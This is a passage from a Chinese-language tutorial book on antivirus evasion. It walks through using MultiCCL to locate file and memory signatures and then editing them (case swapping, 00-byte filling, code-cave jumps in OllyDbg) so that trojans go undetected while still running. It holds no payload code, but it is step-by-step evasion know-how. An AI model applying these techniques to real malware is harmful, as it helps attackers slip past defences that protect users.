选择完毕后会给出如图4.64所示的提示，我们可以知道“如果刚才选错了输出目录，现在可以按 X 键退出”，只要我们不删除或修改 MultiCCL 生成的样本文件与配置信息，下次启动时就会从我们上次结束的地方开始。通过这我们也应该想到，每当开始新的定位时，我们都要将文件夹内上次遗留下来的文件全部删除，否则 MultiCCL 就会自动从上一次结束的地方开始，自然就得不到我们想要的结果了……



图 4.63 图 4.64

这里我们按除“X”键之外的任意键继续，会做一个是否为 PE 文件的判断，对于我们来说没有什么用，按任意键继续，我们会进入如图4.65所示的提示设置界面，询问我们是否要修改“保护区域”与“定位精度”，由于是做一个简单的演示，所以这里我们不需要做什么设置，继续按任意键，键入下一步。


图 4.65

这一步我们进入了一个如图4.66所示的全新界面，通过界面信息我们可以知道，我们该用杀毒软件查杀生成样本目录“OUT”了；另外细心的朋友也会发现，在界面里多出一个小窗口，并且界面底部提示了我们一句话“也可以设置自动定位功能，如果已经设置了，就让程序自动工作吧”，可见 MultiCCL 是可以自动进行免杀工作的。


图 4.66

我们目前先不要管这个功能，用杀毒软件查杀完“OUT”目录，并将查出来病毒的样本文件全部删除后，再按任意键进入下一步，程序会再次提示我们是否确实已经完成查杀操作，再次按任意键进行下一步，进入如图4.67所示的界面，然后我们再次用杀毒软件查杀“OUT”目录的样本文件，就这样一直循环，直到程序提示“祝贺你，定位成功完成”，整个定位工作就结束了。

由于特征码定位本身就是一项高度重复的工作，所以介绍起来也有些繁琐与啰嗦，但是当你跟着本书一起操作一遍的话，相信你很快就能掌握了。

##### 二、MultiCCL 的定位结果文件解读

MultiCCL 的定位结果文件位于免杀目标文件同一目录下的“目标文件名_multiCcL_f_Log”。

如图4.68所示，我们打开后会显示如下内容：

```ini
[Temp]
TmpFileName=H_00000000_001661FF_001661FF_000060B4.tmp
tmpCodz=F:\免杀试验\Domain3.5\OUT\SyaEhsevf0.kYoC
First=0
```

图 4.67

图 4.68

```ini
[CharacterCode]
newCode=1
OK=1
CharacterTotal=1
Code1=H_001661DF_001661FF_00000021_000060B4

[outfile]
outfile1=Ynn11.New
recode1=H_001661FE_001661FF_00000001_000060B4
TotalNumber=32
outputPath=F:\免杀试验\Domain3.5\OUT\
outfile2=Xfgj2.pmQKv
recode2=H_001661FD_001661FF_00000002_000060B4
outfile3=CYgulpsV3.gotkeT
recode3=H_001661FC_001661FF_00000003_000060B4
......
......
```

由于文件对我们来说的无用信息比较多，所以这里只列出头部的部分有用信息为大家讲解。对于我们来说，只需要关注黑体字“[CharacterCode]”部分即可，其中的“newCode=1”代表已定义出的特征码总数，接下来的“OK=1”说明这次特征码定位是成功的，如果显示为“OK=0”则说明这次特征码定位没有完全完成。剩下的就是特征码的详细信息了，例如：

```ini
CharacterTotal=1
Code1=H_001661DF_001661FF_00000021_000060B4
```

```ini
CharacterTotal=2
Code2=H_XXXXXXXX_XXXXXXXX_000000XX_0000YYYY
```

其中的“CharacterTotal=1”代表这是第1个特征码，后面的“Code1=H_001661DF_001661FF_00000021_000060B4”则代表特征码的开始位置为001661DF，结束位置为001661FF，特征码大小为21，后面的000060B4没有意义，是随机码。也就说整体的格式是这样的：H_特征码的开始位置_特征码的结束位置_特征码大小_随机码

## 三、MultiCCL的详细设置

MultiCCL 的设置文件位于定位文件同目录下的名为“Except.txt”的文本文档里，具体内容如下：

```ini
[Except]

;;            保护区域设置
;定位中，有时需要保护某处特殊的区域
;把需要保护的特征码片段的数量(十进制)写到 ExceptTotal 的键值中
;把需要保护的片段加到以下的 ExceptN 键的键值中
; N 从1开始依次递增(十进制)。
;片段的格式是 H_xxxxxxxx_yyyyyyyy_00000000_00000000_
;其中x为片段的起始端偏移，y为结尾端偏移
;(当y为 FFFFFFFF 时，表示保护区域从xxxxxxxx开始直到文件末尾)
;每个域用八位的十六进制值，且四个域一个都不能少
ExceptTotal=0
Except1=H_00000000_00000000_00000000_00000000_
Except2=H_00000000_00000000_00000000_00000000_
Except3=H_00000000_00000000_00000000_00000000_

[dwX]

;;            定位精度设置
;杀毒软件干扰性强时，应适当降低精度
;如 NOD32 的启发式扫描，改为 10~15（十进制）
;这个设置只是定位过程中的精度控制，不影响最终结果
dwX=1
```

通过介绍，我们可以知道这个设置文件包含“保护区域设置”与“定位精度设置”这两项，其中“保护区域设置”包含保护区数量与保护区详细信息这两项，而“定位精度设置”只包含精度一项。

关于保护区域，即保护文件内的一处区域不被MultiCCL生成样本时替换，它的作用很多，例如我们事先已经在某些区域定位出了非单一性的特征码，我们就可以将其加入保护区域，以减少生成时间，提高免杀效率。

当然，我们必须保证保护区内没有可形成特征的单一特征码，否则的话，由于MultiCCL生成每个样本文件都会包含保护区域内的特征码，所以每次的查杀结果都是所有样本都带毒。

下面我们讲解它的设置过程，其实是非常简单的。

我们首先在关键字“ExceptTotal=0”处设置保护区的个数，例如你想设置1个，后面的就是“ExceptTotal=1”，如果想设置8个，那么就是“ExceptTotal=8”。有的朋友可能会问“我看设置参数里只有3处可以设置详细信息啊？”其实不然，我们只要添加上几条就行了，例如：

```ini
Except4=H_00000000_00000000_00000000_00000000_
................
Except7=H_00000000_00000000_00000000_00000000_
Except8=H_00000000_00000000_00000000_00000000_
```

只需要注意Except后面跟的数字也跟着加1即可。

而关于保护区域的设置，这里我们以保护一个PE文件的PE文件头为例子，由图4.69可知这个PE文件的PE文件头区域的偏移量为00000080-0000015F，那么偏移量的详细信息设置就应写为“Except1=H_00000080_0000015F_00000000_00000000_”，设置完毕后，在用MultiCCL生成样本文件时就不会再替换这部分内容了。

而定位精度设置更为简单，只需将dwX的值设置为我们想要的精度即可，例如我们要MultiCCL定位时采用15字节的精度，那么将其设置为“dwX=15”就可以了。设置完毕后保存更改，在返回MultiCCL就直接生效了。

##### 四、MultiCCL 免杀自动化功能的设置

首先大家应该了解，其实所谓的免杀自动化只不过是一个模拟鼠标与键盘动作的小程序，所以用好这项功能的重点就在于杀毒软件的设置。

对于杀毒软件，一定要将其设定为“一键式操作”，也就是说我们只需要点一下鼠标，杀毒软件就应该完成扫描指定文件夹，并将扫描到的病毒查杀。现在的杀毒软件设置都非常人性化，很轻松就能满足上面的需求。

这里我们以卡巴斯基为例，打开卡巴斯基后依次点击“扫描”→“添加”并在弹出的对话框中选择我们的样本生成目录，如图4.70所示。然后点“开始扫描”下面的“设置”选项，在弹出的对话框中的“操作”栏里选择“不提示操作”，并把其下面“清除”前的对勾去掉即可，如图4.71。

图 4.70

图 4.71

下面我们回到MultiCCL的界面，我们将其与卡巴斯基的界面如图4.72所示并排平铺在桌面上，然后点击“autoStarScan”里的“设置”按钮，弹出“设置”对话框。由于我们的MultiCCL特征码精度为默认的1字节，所以到后期可能会生成很多文件，所以这杀毒时间设置是16秒，然后将鼠标图标拖放到卡巴斯基的“开始扫描”上，并将带有Cmd字符的图标拖放到MultiCCL的界面里，如图4.73所示，接下来点击“测试”按钮测试设置的准确性，最后点击“保存”即可。

图 4.72

图 4.73

#### 4.6.3 MultiCCL 定位内存特征码

文章写到这里，找到了 MultiCCL 已经发布的 1.205 版，在这个版本里用于内存定位的 multiCCL_m 有了一个加强版 multiCCL_mm.exe，加强版内存定位工具的特点就是不用设置繁琐的保护区域，使得入门朋友的操作成功率大大提高。下面我们就针对加强版来为大家讲解一下使用 MultiCCL 定位一些操作技巧。其实从总体上来讲，MultiCCL 的内存定位的操作步骤与文件特征码定位基本一致，所以这里只为大家详细讲解不一样的地方。

我们首先打开 MultiCCL 内存定位器加强版，如图4.74所示，可以看见除了界面稍有变化以外，字体也都变成了墨绿色。我们按任意键继续，接下来就是选择将要进行定位的目标文件与样本生成目录，这两步与文件定位的操作一模一样。选择完毕后按任意键继续，进入如图4.75所示的下一步界面，提示我们可以按“X”退出，或按其他任意键继续，并且提醒我们一定要对样本文件先进行文件特征码定位，继续按任意键进入下一步。提示我们是否设置保护区域与定位精度等信息，设置的方法与文件定位一样，这里我们选择默认即可，所以直接按任意键进入下一步。

下面我们就正式进入循环了，如图4.76所示，我们根据重要提示里的内容，将杀毒软件的内存查毒执行动作设置为“提示用户操作”，总之不要杀毒软件自动作出任何删除或禁用的动作，因为这样会导致我们定位失败。也就是说，杀毒软件在这里的唯一作用就是发现病毒并报告给我们。

图4.74

图4.75

图4.76

我们接着按任意键进入下一步，会出现如图 4.77 所示的提示，直接按 Enter 键确认即可，如果加载成功，会在屏幕左上角出现如图 4.78 所示的提示，大概持续 2-4 秒后消失。如果我们看见了如图 4.78 的提示中显示“文件加载成功”，在这里就按“N”键，意思是文件加载没有出错，否则就按“Y”键，意思是文件加载失败了，这时程序就会自动退出，免杀也就无法进行了。但是由图 4.78 可知，我们加载成功了，所以在这里按“N”键，按完后就会弹出如图 4.79 所示的文件加载界面。

图 4.77

图 4.78

图 4.79

由于我们定位的是一个 EXE 文件，所以在上面的“加载方式”复选框里要选中 EXE，然后点击“打开记录”按钮，到我们目标文件同目录下找到记录文件，如图 4.80，接下来点击“加载全部”按钮加载文件，如图 4.81，最后用杀毒软件以图 4.82 所示的方式扫描内存。

图 4.80

图 4.81

图 4.82

由于 MultiCCL 第一次只生成 1 个文件，所以大多数情况下都会被查杀，我们回到 MultiCCL 的文件加载界面，先点击“全部卸载”按钮以便于我们稍后删除，否则的话是删除不了的。然后点击“->⊥”按钮，将选中的样本文件移到右边的列表里，最后选中右边列表里的文件，并点击“确定删除”按钮删除，如图 4.83 所示。

删除完带毒文件后，我们回到 DOS 命令行下的 MultiCCL 生成界面，注意先不要关闭文件加载界面。接下来我们按任意键进行下一步，这里会提示我们是否确认已经处理完毕，否则的话还有后悔药可吃，我们不用后悔药，直接再次按任意键继续，如图 4.84 所示。

图 4.83

图 4.84

然后我们再返回 MultiCCL 文件加载界面，这次 MultiCCL 生成了 16 个样本文件，点击“加载全部”按钮后，我们继续用上面刚讲过的扫描方式扫描内存，得出如图 4.85 所示的结果。由结果可知标号为 001 与 002 的两个文件被检查出了病毒，所以在 MultiCCL 文件加载界面里将这两个文件用上面的方法移动到右侧列表里，并将之删除，如图 4.86 所示。

图 4.85　　图 4.86

下一步我们继续回到 DOS 命令行下的 MultiCCL 生成界面，继续重复上面的操作，直到提示特征码定位成功即可结束。关于内存特征码定位报告的查看方法与文件特征码定位的查看方法一样，这里就不再多说了。除此之外，还有个名为 multiCCL_inj.exe 的注入代码块内存定位程序，这个程序可以看为 multiCCL_f.exe 与 multiCCL_mm.exe 的合体，虽然功能上稍有差异，但是操作步骤基本一样，只不过是先进行文件特征码定位，再进行内存特征码定位。

#### 4.6.4 由 MultiCCL 想到的

不知道各位读者对于 MultiCCL 的工作方式给予怎样的评价，我个人认为 MultiCCL 的身上有许多值得我们学习与思考的地方。

就拿最简单的样本文件生成来讲，不管是 CCL 与 MYCCL 都是以生成样本文件的文件名来判定这个文件的填充状况，而我们看看如图 4.87 所示 MultiCCL 生成的样本文件，它的样本文件名与后缀名都是随机生成的，具体某个文件是怎样填充的，在记录文件里有相对的记录，如下所示：

```text
[Outfile]
outfile1=DYQbZYi1.wt
recode1=H_00000000_000B9BFF_0000B9BF_000A1248
TotalNumber=16
outputPath=F:\免杀试验\output\
outfile2=yeR2;LiTj
recode2=H_00000000_000B9BFF_0001737E_000A1248
outfile3=QQoc3.xSL
recode3=H_00000000_000B9BFF_00022D3D_000A1248
outfile4=foSQeVqoe4.LoM
recode4=H_00000000_000B9BFF_0002E6FC_000A1248
outfile5=FC5.VawucWXb
recode5=H_00000000_000B9BFF_0003A0BB_000A1248
..........
..........
```

我们结合图 4.87 对比就不难发现其中的规律。除此之外，MultiCCL 的填充字符也是随机的，虽然有一定的几率会引出特征码定位准确率的问题，但是与其带来的好处相比，也可以完全忽略了。由此可见，MultiCCL 所用的算法与编程思想都是值得我们借鉴与反思的。

图 4.87

### 4.7 特征码修改方法

通过前面的学习，相信大家对特征码的查找已经比较了解了，但是单单查找出特征码并不能达到我们想要的免杀目的，如果想文件免杀，又使文件正常运行，就要用到我们的特征码修改技巧了。

在这里提示一下，各位读者在进行特征码修改练习的时候，并不需要真正拿个木马来做，完全可以随便挑选一个体积比较小的软件来做实验。下面我就由浅入深给大家讲解特征码的修改方法。

#### 4.7.1 简单的特征码修改

既然是简单的特征码修改，自然是大家都非常容易理解的了。但是这里讲的方法只适用于文件特征码，对于内存特征码的修改方法，我们下一节就会涉及到。所以我们这一节就以简单的大小写替换方法开始讲起。

##### 一、大小写替换修改

由名字我们就不难发现，所谓的大小写替换方法就是将原有的大写或小写字母更改为相反的状态，例如我们的特征码为 code，那么我们不管将其改为 CODE 还是 Code 或是 coDe 都可以达到免杀的目的。

这种方法适用于所有特征区域出现字符的状况，例如图 4.88 所选定的区域就是一处特征 000009C4_0000000B，我们可以发现这处特征每个字符之间都有个“.”，也就是“00”隔开，因此可以推断这属于 Unicode 类型，其实对于这字符串属于什么类型并不影响我们更改特征码，之所以介绍是为了让大家掌握更多的基础知识。

由图可知，我们的特征码其实就是“Explor”这段字符，因此我们只需要对其进行简单的大小写替换即可，用鼠标点击我们想要更改的字符，然后在键盘上按下相应按键即可将其更改为相应字符，更改结果如图 4.89 所示。

但是为什么我们只需将大小写更改完毕之后就会使杀毒软件“失效”了呢？这实际上是基于 Windows 系统与杀毒软件的一个不同的特性，Windows 系统在很多情况下对大小写并不敏感，但是杀毒软件则不同，它大多数是根据字符的 ASCII 码来判定病毒特征的，而大写字母与小写字母的 ASCII 码是不同的，如图 4.90 所示，我们可以发现改过之后的 ASCII 码虽然与原来的 ASCII 码已经完全不同，但是我们的字母却没有变，只是更改了一下大小写而已，因此在 Windows 系统下仍然可以正常运行。

但是大小写修改方法真的是碰到字母就可以放心的使用吗？事实上并非如此，个别的情况下还是不能使用的，但是由于涉及到比较深层的知识，所以在这里暂且不谈，我们在以后的章节中在逐一向大家介绍。

##### 二、用“00”字节填充

虽然我们有了上面那种方法撑腰，但是我们不可能每次定义的特征码里都有字母可以让我们修改，所以我们还需要另外一个应用的比较广泛的方法——“00”字节填充法。

但是大家要注意，这里的添0并不是在10进制区域，而是在16进制区域，如图 4.91 所示。但是要提醒大家的是，用“00”填充是一种需要适可而止的修改方法，过度利用带来的结果只能是修改的失败。

前面在讲解特征码查找原理时说过，在汇编里“00”是表示什么也没有的意思，如果我们将某一个代码在16进制下用“00”替换的话，那么我们就相当于删除了这段代码，在程序运行时有几率出现一些问题，而我们如果想尽量避免出现这些问题，就应该尽量少的使用“00”填充。

但是正因为“00”填充法有时会出现问题，所以在操作时一定要灵活运用。例如如果这个字节填充失败，我们就应该换下一个字节试试，如果所有字节都不行，我们就在定位特征码时将精度调低一些，这样我们选择的余地就会更大。如果这样做的话，大多数情况下我们都会发现一处填充后运行依然正常的特征码。

也许有的读者会感到困惑，既然“00”字节填充这么不稳定，那么它的可靠性究竟有多少呢？或者它依靠的理论是否可靠呢？

对于“00”字节填充法，网上或杂志上没见到有人讲解它的理论，所以笔者对其作了一定的研究，最后发现这是由于PE文件的特殊格式以及程序编译语言等问题，使得生成目标代码的效率并不高，难免出现一些“垃圾信息”，而这些信息存在与否对程序是否能正常运行并不起决定性的作用。当木马的这部分“垃圾信息”被定义为特征码时，我们完全可以将其删除，而删除的方法就是用无任何意义的00将其替换。如果定义的特征码本身就为00的话，我们也可以将其修改为90。

### 三、加1减1法

加1减1法所利用的就是ASCII值相近的部分汇编指令所代表的意思往往也大体相同。例如特征码为“74”，那么进行加1后自然就是“75”了，而16进制的“74”、“75”分别代表汇编指令中的“JE”与“JNE”，它们都是具有跳转功能的指令。

但是不得不说的是，笔者认为这种方法所用的理论与操作的成功率都不算理想，所以大家只作为一个了解即可，并不推荐大家使用这种方法。

#### 4.7.2 特征码修改进阶

这一部分将介绍汇编状态下的修改方法，这里介绍的方法通吃文件特征码与内存特征码，而且从操作方法与原理上来讲有些甚至更为简单！所以大家在学习这一节时只要有耐心，就一定会成功！

在反汇编状态下修改特征码时首先需要做的事情就是将我们得出的16进制偏移量地址改为内存地址，听起来似乎很模糊，其实操作上非常简单。

我们首先打开OC偏移量转换器，点击“...”按钮打开我们的测试文件，如图4.92所示，然后填写上我们定位出来的特征码，如果是做实验的话随便填一个即可，点击“>>>>”按钮即可得出如图4.93所示的结果，后面的那个0x0100FAEE就是转换之后的内存地址了。在本节下面将要提到的所有特征码修改方法都需要先进行这一步操作，所以在下面的小节中不再重复。





##### 一、空白区域跳转法

对于这种方法，应该是修改特征码工作中最常用的一种方法了。当然，也应该是最好用的一种方法。但是对于我们现阶段的读者来讲，也许会遇到一些小麻烦，但是我相信各位读者很快就会掌握这种方法！

我们这里的“小麻烦”指的是这种方法的操作比较麻烦，对于入门不久的读者来讲，可能没怎么接触过这类工具的使用，从而使这些方法可能更容易令读者粗心大意，造成修改失败。现在我们找到一处特征码“0000EEEE 00000004”，用 OC 转换之后得到内存地址“0x0100FAEE”，现在用 OllyDbg 打开实验文件，如图4.94所示。


图 4.94

现在我们按快捷键“Ctrl”+“G”调出“跟随表达式”对话框，并输入我们转换出来的内存地址“0x0100FAEE”，如图4.95所示。然后用鼠标单击地址“0x0100FAEE”处汇编指令，按快捷键“Ctrl”+“C”复制，并保存在记事本中，如图4.96所示。


图 4.95


图 4.96

接下来我们找到一处如图4.97所示的空白区域，并记住其中的任意一个地址，这里我们就记住“0x0101865E”这个地址。下面我们返回“0x0100FAEE”，右键单击这句指令，在弹出的对话框中依次选择“二进制”→“用NOP填充”，如图4.98所示。


图 4.97


图 4.98

选中我们NOP掉的语句，在“0x0100FAEE”行单击右键，在弹出如图4.99所示的菜单中选择“汇编”，然后写入指令“jmp 0101865E”无条件跳转到我们刚才找到的那个空白地址处，如图4.100所示。


图 4.99


图 4.100

现在我们记下“0x0100FAEE”下面的地址“0x0100FAF3”，再到“0x0101865E”这个我们刚才找到的空白地址处，选择后依然右键单击并选择汇编，然后写入前面我们记录在记事本的指令“add edx,eax”，如图4.101所示。我想大家应该发现了，这不就是我们刚才NOP掉的那个语句吗（参见图4.98）？是的，正是如此，但是我们为什么要这样做呢？这个问题我们先放一放，先将这次修改做完再说。


图 4.101


图 4.102

